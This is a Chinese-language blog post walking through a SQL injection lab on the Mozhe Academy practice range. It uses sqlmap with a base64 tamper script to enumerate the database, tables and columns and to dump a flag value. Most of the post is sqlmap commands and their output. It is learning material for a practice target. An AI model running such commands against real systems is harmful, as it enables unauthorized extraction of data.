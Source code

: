 ```yaml
---
layout: post
title: "sqlmap实战体验"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
---
```


* content
{:toc}


> sqlmap实战体验, 看教程很迷. 实战一次会理解的更好.

> 虽然用linux安装这些工具更合适, 不过这个比较浪费时间. 准备暑假的时候把大部分的工具迁到Linux上去. 我目前还是比较焦急的, 想多学点东西.
> 不太想在细枝末节上面浪费太多时间.
> 仔细想想, 自己的时间已经不多了. web-sec其实上周四(19-05-16)才算刚刚接触, 之前一直在划水摸鱼, 没有深入学习.  
> 还有很多知识点要学, 还有很多工具需要学习怎么使用, 还有课堂的学习, 还有beego等框架.


[参考](https://www.cnblogs.com/dzkwwj/p/9484671.html)

练习地址: 墨者学院-->在线靶场-->web安全-->sql注入-->sql注入实战-MySQL

**题目提示的解题方向:**
参数通过base64编码后传输，然后根据相关提示进行测试


# 测试注入
测试注入:
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo=
```
结果:
```
[20:34:09] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

> 报错信息可以有道翻译一下, 这么长.

大体意思是: 参数 id 可能不存在注入，可以尝试增加尝试等级（level），或者增加执行测试的风险（risk）。如果你觉得存在某种保护机制，可以使用tamper篡改注入数据

根据提示信息增加level和tamper：
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode
```

返回:
```
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
```

剩下就是常规脱库操作

<br />

# 脱库
## (1) 查看数据库名
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-db
```

返回:
```
current database: 'test'
```

## (2) 查看当前用户
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-user
```

返回:
```
current user: 'admin@%'
```


## (3) 查看表
查看数据库test中有哪些表:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables
```

返回:
```
Database: test
[1 table]
+------+
| data |
+------+
```

## (4) 查看列
查看data表中有几列:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test -T data --columns
```

返回:
```
Database: test
Table: data
[4 columns]
+--------+------------------+
| Column | Type             |
+--------+------------------+
| id     | int(10) unsigned |
| main   | text             |
| thekey | varchar(255)     |
| title  | varchar(255)     |
+--------+------------------+
```

thekey这个列..

## (5) 最后一步
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables -C thekey --dump
```

返回:
```
mozhec42eae6ac2490f9fa58b828f58d
Database: test
Table: data
[1 entry]
+----------------------------------+
| thekey                           |
+----------------------------------+
| mozhec42eae6ac2490f9fa58b828f58d |
+----------------------------------+
```
等待时间有点长, 耐心等待就好.
